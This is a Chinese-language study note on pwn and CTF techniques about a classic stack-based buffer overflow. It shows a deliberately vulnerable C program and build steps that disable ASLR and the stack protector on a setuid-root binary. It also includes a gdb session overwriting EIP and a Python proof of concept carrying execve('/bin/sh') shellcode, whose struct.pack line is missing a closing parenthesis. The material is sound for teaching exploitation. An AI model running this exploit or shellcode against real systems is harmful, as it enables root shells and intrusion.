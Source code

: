 ```yaml
---
title: PWN学习笔记2--堆栈的缓冲区溢出
date: 2019-01-15 10:31:14
tags:
  - pwn
categories: CTF
---
```

# 缓冲区溢出
缓冲区溢出有两种类型：
1. 基于栈的缓冲区溢出
2. 基于堆的缓冲区溢出

缓冲区溢出可导致任意代码执行！
任意代码执行允许攻击者执行其代码以获取受害者机器的控制权，获取shell，添加新用户，打开端口等......
<!--more-->
# 栈溢出示例
## 易受攻击的代码
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}

```

gcc编译
```bash
#关闭ASLR（地址空间布局随机化）
sudo echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
#添加执行权限
sudo chown root vuln
sudo chgrp root vuln
sudo chmod +s vuln     
```

从上述代码可以看出，第[2]行代码存在缓冲区溢出，可导致任意代码执行。

## 反编译
使用gdb编译
![](2019-01-15-PWN学习笔记-堆栈的缓冲区溢出\反编译.PNG)

## 测试
当输入大小超过256时会溢出缓冲区并覆盖栈中的返回地址。通过输入“A” * 268 + “B” * 4测试。

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
输出显示寄存器eip被“BBBB”覆盖。
* 0x8 is alignment space
* 0x4 is caller’s EBP
268=256+8+4

## Poc
```Python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",num

# buf = Junk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode

print "Calling vulnerable program"
call(["./vuln", buf])
```

# 英文原文
[Classic Stack Based Buffer Overflow](https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/)

